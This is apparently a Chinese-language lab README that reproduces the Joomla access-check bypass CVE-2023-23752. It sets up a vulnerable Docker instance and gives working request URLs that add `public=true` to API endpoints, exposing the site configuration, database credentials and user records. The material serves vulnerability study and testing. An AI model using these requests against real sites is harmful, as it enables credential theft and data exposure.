# Joomla权限绕过漏洞（CVE-2023-23752）

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

在其4.0.0版本到4.2.7版本中，存在一处属性覆盖漏洞，导致攻击者可以通过恶意请求绕过权限检查，访问任意Rest API。

参考链接：

- <https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html>
- <https://xz.aliyun.com/t/12175>
- <https://vulncheck.com/blog/joomla-for-rce>

## 漏洞环境

执行如下命令启动一个Joomla 4.2.7：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到Joomla页面。

## 漏洞复现

这个漏洞是由于错误的属性覆盖导致的，攻击者可以通过在访问Rest API时传入参数`public=true`来绕过权限校验。

比如，访问下面这个链接即可读取所有配置项，包括数据库连接用户名和密码：

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![](1.png)

如果不添加`public=true`，则访问会被拒绝：

![](2.png)

访问下面这个链接即可读取所有用户信息，包含邮箱等：

```
http://your-ip:8080/api/index.php/v1/users?public=true
```

![](3.png)

